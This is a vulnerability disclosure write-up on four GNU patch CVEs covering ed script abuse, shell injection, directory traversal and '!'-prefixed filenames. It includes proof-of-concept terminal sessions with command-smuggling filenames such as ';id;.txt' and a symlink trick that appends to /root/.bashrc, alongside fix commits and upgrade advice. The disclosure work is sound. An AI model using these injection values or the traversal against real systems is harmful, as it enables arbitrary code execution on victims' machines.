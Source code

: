# GNU patch vulnerabilities

I identified several vulnerabilities in the GNU patch utility, most of them making it possible to execute 
arbitrary code if the victim opens a crafted patch file. It also turned out, some of these vulnerabilities
had been silently addressed by the maintainer back then in 2018 when CVE-2018-1000156 was reported by 
pushing some additional commits the same day, but only the primary patch was picked up by many Linux
distributions (like Debian, Ubuntu or Fedora).

## The vulnerabilities

### CVE-2018-1000156 - unrestricted ed input

This finding belongs to someone else, but unfortunately I'm unsure who the author is.
The original thread on the official bug report site:

https://savannah.gnu.org/bugs/?53566

The official patch of CVE-2018-1000156 is:

https://git.savannah.gnu.org/cgit/patch.git/commit/?id=123eaff0d5d1aebe128295959435b9ca5909c26d

According to the comment of the commit:
* src/pch.c (do_ed_script): Write ed script to a temporary file
instead of piping it to ed: this will cause ed to abort on invalid
commands instead of rejecting them and carrying on.


The thing is, `ed`'s behaviour is different when the script is coming
from a pipe (see the edoffset.script attached):

```
root@55c24e15f7e6:/data/edstyle5# touch whatever
root@55c24e15f7e6:/data/edstyle5# cat edoffset.script | ed whatever
0
?
!
0
root@55c24e15f7e6:/data/edstyle5# cat id-proof.txt
uid=0(root) gid=0(root) groups=0(root)
```

And when it is duped:

```
root@55c24e15f7e6:/data/edstyle5#  rm id-proof.txt
root@55c24e15f7e6:/data/edstyle5#  ed whatever < edoffset.script
0
?
root@55c24e15f7e6:/data/edstyle5# cat id-proof.txt
cat: id-proof.txt: No such file or directory
```

And now the same via patch:

```
root@55c24e15f7e6:/data/edstyle5# ../patch-2.7.6-vanilla/patch-2.7.6/src/patch  < CVE-2018-1000156.patch
patching file file
?
foo
../patch-2.7.6-vanilla/patch-2.7.6/src/patch: **** /bin/ed FAILED
root@55c24e15f7e6:/data/edstyle5# cat CVE-2018-1000156-proof.txt
uid=0(root) gid=0(root) groups=0(root)
```

`CVE-2018-1000156.patch` is pretty much the same as the original PoC created
for that issue (`poc.patch` among the attachments on savannah linked above).


### CVE-2019-13638 - Shell command injection while invoking ed

The GNU patch utility used to invoke `ed` via the shell interpreter and the filenames
were not sanitized correctly, making it vulnerable to shell command injection.
This way, exploitation of CVE-2019-13638 doesn't even require `ed` to be installed.

The official fix was commited the same day as for CVE-2018-1000156, but many distributions
didn't pick it up:

https://git.savannah.gnu.org/cgit/patch.git/commit/?id=3fcd042d26d70856e826a42b5f93dc4854d80bf0

The proof of concept:

```
root@3ffaeb445eab:/data/edstyle4# patch --version
GNU patch 2.7.6
...

root@3ffaeb445eab:/data/edstyle4# patch < CVE-2019-13638.patch
patching file ';id;.txt'
sh: 1: ed: not found
uid=0(root) gid=0(root) groups=0(root)
sh: 1: .txt.o60SfgR: not found
patch: **** ed FAILED
```

### CVE-2019-13636 - Directory traversal and file append

The directory traversal here made it possible to escape the working directory of patch
and append (almost) arbitrary file content to any files on the file system.

This finding is brand new and was fixed only after I reported it. Official patch:

https://git.savannah.gnu.org/cgit/patch.git/commit/?id=dce4683cbbe107a95f1f0d45fabc304acfb5d71a

When patch was saving a rejection, it did not check properly whether the file already
exists or not. This could be abused to escape the working dir:

```
root@3ffaeb445eab:/data/test1/test-apply3#  cat CVE-2019-13636.patch | patch
patching symbolic link home
patching symbolic link home.rej
File home is not a regular file -- refusing to patch
1 out of 1 hunk ignored -- saving rejects to file home.rej
patching symbolic link home
patching symbolic link home.rej


root@3ffaeb445eab:/data/test1/test-apply3# cat /root/.bashrc
# ~/.bashrc: executed by bash(1) for non-login shells.
...
# alias mv='mv -i'
--- home
+++ home
@@ -0,0 +1,3 @@
+ partially
+ controlled
+ content
```

### CVE-2018-20969 - OS shell command execution via ! prefixed ed filenames

If `ed` receives an exclaimation mark prefixed command line argument, it is executed
as a shell command via popen. This was exploitable via GNU `patch` as well.

Official fix:

https://git.savannah.gnu.org/cgit/patch.git/commit/?id=3fcd042d26d70856e826a42b5f93dc4854d80bf0

The referenced patch is the same as for CVE-2019-13638; note the assertion line.

(Yes, CVE-2018-20969 was reported by me in 2019 along with the other two and MITRE indeed 
assigned a 2018 ID for it)

Since `ed` is capturing the output of what it executes and the same version of GNU `patch` was vulnerable 
I decided to build 2 versions of `patch` with the above patch applied, one with the assertion line and
one without it.


```
root@a8e181dcb4b1:/data# diff /data/patch-3fcd042d26d70856e826a42b5f93dc4854d80bf0-assert/src/pch.c /data/patch-3fcd042d26d70856e826a42b5f93dc4854d80bf0-noassert/src/pch.c
2470c2470
<           assert (outname[0] != '!' && outname[0] != '-');
---
>           // assert (outname[0] != '!' && outname[0] != '-');

root@a8e181dcb4b1:/data/edstyle5# ../patch-3fcd042d26d70856e826a42b5f93dc4854d80bf0-assert/src/patch -p0 < CVE-2018-20969.patch
patching file '!$(id>exclam-proof.txt);/foo'
patch: pch.c:2470: do_ed_script: Assertion `outname[0] != '!' && outname[0] != '-'' failed.
../patch-3fcd042d26d70856e826a42b5f93dc4854d80bf0-assert/src/patch: **** ed FAILED
root@a8e181dcb4b1:/data/edstyle5# cat exclam-proof.txt
cat: exclam-proof.txt: No such file or directory


root@a8e181dcb4b1:/data/edstyle5# ../patch-3fcd042d26d70856e826a42b5f93dc4854d80bf0-noassert/src/patch -p0 < CVE-2018-20969.patch
patching file '!$(id>exclam-proof.txt);/foo'
sh: 1: /foo.oislN9J: not found
../patch-3fcd042d26d70856e826a42b5f93dc4854d80bf0-noassert/src/patch: **** ed FAILED
root@a8e181dcb4b1:/data/edstyle5# cat exclam-proof.txt
uid=0(root) gid=0(root) groups=0(root)
```



## Remediation

Upgrade to latest version of patch provided by your Operating System.
If you build it your own, bump to the head of the master branch.

